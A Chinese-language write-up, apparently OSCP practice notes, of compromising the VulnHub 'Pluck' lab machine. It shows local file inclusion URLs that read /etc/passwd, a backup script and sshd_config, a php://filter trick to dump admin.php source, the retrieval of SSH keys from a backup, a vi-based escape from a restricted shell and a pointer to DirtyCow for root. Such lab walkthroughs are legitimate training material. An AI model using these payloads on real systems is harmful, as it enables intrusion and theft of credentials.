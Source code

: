 ```yaml
---
title: Pluck
categories:
- training
tags:
- training
---
```


[靶机下载地址](https://www.vulnhub.com/entry/pluck-1,178/)

```
192.168.1.115


22/tcp   open  ssh     OpenSSH 7.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

mysql -h 192.168.1.115  -u root -p
Enter password: 
ERROR 1130 (HY000): Host '192.168.1.102' is not allowed to connect to this MySQL server
```
## 本地文件包含

http://192.168.1.115/index.php?page=contact.php

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/4.PNG)

存在本地文件包含漏洞，可以达到任意文件读取的目的。

```
http://192.168.1.115/index.php?page=/etc/passwd

bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
peter:x:1001:1001:,,,:/home/peter:/bin/bash
paul:x:1002:1002:,,,:/home/paul:/usr/bin/pdmenu
backup-user:x:1003:1003:Just to make backups easier,,,:/backups:/usr/local/scripts/backup.sh
---

http://192.168.1.115/index.php?page=/usr/local/scripts/backup.sh

文件内容如下
#Backup directories in /backups so we can get it via tftp

echo "Backing up data"
tar -cf /backups/backup.tar /home /var/www/html > /dev/null 2& > /dev/null

tar -cf是建立备份文档的意思
---
wget http://192.168.1.115/index.php?page=/backups/backup.tar

该备份文档只进行了打包，没有压缩，下图可见文件绝对路径。
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/5.PNG)

ssh -i id.rsa paul@IP
ssh peter@192.168.1.103
无法连接
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/6.PNG)

查看ssh配置
http://192.168.1.103/index.php?page=/etc/ssh/sshd_config
查找[资料](https://whale3070.github.io/training/2019/10/26/07-x/)后发现，ssh私钥是这样的格式。

```
-----BEGIN RSA PRIVATE KEY-----
xxx省略
-----END RSA PRIVATE KEY-----
```
而路径中有/home/paul/keys/id_key2、/home/paul/keys/id_key3等等，只有找到正确的ssh私钥才能连接。


## sql注入
sql报错注入。因为oscp考试不允许使用自动化利用的工具，于是我特地手动利用，不使用sqlmap。
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/3.PNG)


### admin.php
http://192.168.1.103/index.php?page=php://filter/convert.base64-encode/resource=admin.php

关键代码在这一行
```
if(strpos($_POST['email'], '\'') !== false) {
	echo  "<strong>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 6</strong>";
}else{
	echo  "<strong>Incorrect Username or Password!</strong>";
}

strpos — 查找字符串首次出现的位置
如果email中存在单引号，就会提示一串sql语法错误。
```
## 查看writeup
以前没有遇到这种ssh登陆错误。

ssh -v -i id.rsa4 paul@192.168.1.103

```
OpenSSH_8.0p1 Debian-3, OpenSSL 1.1.1c  28 May 2019
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: /etc/ssh/ssh_config line 19: Applying options for *
debug1: Connecting to 192.168.1.103 [192.168.1.103] port 22.
debug1: Connection established.
debug1: identity file id.rsa4 type -1
debug1: identity file id.rsa4-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_8.0p1 Debian-3
debug1: Remote protocol version 2.0, remote software version OpenSSH_7.3p1 Ubuntu-1
debug1: match: OpenSSH_7.3p1 Ubuntu-1 pat OpenSSH_7.0*,OpenSSH_7.1*,OpenSSH_7.2*,OpenSSH_7.3*,OpenSSH_7.4*,OpenSSH_7.5*,OpenSSH_7.6*,OpenSSH_7.7* compat 0x04000002
debug1: Authenticating to 192.168.1.103:22 as 'paul'
debug1: SSH2_MSG_KEXINIT sent
debug1: SSH2_MSG_KEXINIT received
debug1: kex: algorithm: curve25519-sha256@libssh.org
debug1: kex: host key algorithm: rsa-sha2-512
debug1: kex: server->client cipher: chacha20-poly1305@openssh.com MAC: <implicit> compression: none
debug1: kex: client->server cipher: chacha20-poly1305@openssh.com MAC: <implicit> compression: none
debug1: expecting SSH2_MSG_KEX_ECDH_REPLY
debug1: Server host key: ssh-rsa SHA256:6k4RLcLMdnm7mjtP4Kh+t6wSWNuYpHtRT3tkINCk1wY
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the RSA key sent by the remote host is
SHA256:6k4RLcLMdnm7mjtP4Kh+t6wSWNuYpHtRT3tkINCk1wY.
Please contact your system administrator.
Add correct host key in /root/.ssh/known_hosts to get rid of this message.
Offending RSA key in /root/.ssh/known_hosts:1
  remove with:
  ssh-keygen -f "/root/.ssh/known_hosts" -R "192.168.1.103"
RSA host key for 192.168.1.103 has changed and you have requested strict checking.
Host key verification failed.
```
ssh-keygen -f "/root/.ssh/known_hosts" -R "192.168.1.103"

只要根据提示，删除以前的记录即可。可能是因为以前也使用过相同的ip进行ssh无密码登陆，而这个是不同的主机，所以登陆失败了。

删除记录后再次尝试登陆，ssh会提示是否保存记录，我们输入yes。

登陆成功。

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/7.PNG)

## 突破限制的shell
ssh登陆后，是一个限制权限的shell，只能运行上述图片中的功能。

选择edit file，然后输入/tmp，这是一个存在的目录。
使用的是vi编辑器来编辑文件。

输入
```
:set shell=/bin/bash
:shell
```
于是获得了paul权限的/bin/bash

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/8.PNG)

有哪些方法突破有限制的shell?

## 提权
uname -a
Linux pluck 4.8.0-22-generic #24-Ubuntu SMP Sat Oct 8 09:15:00 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

上传linux-exploit-suggester.sh


![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-08-11/9.PNG)

dirtycow内核漏洞提权。
    

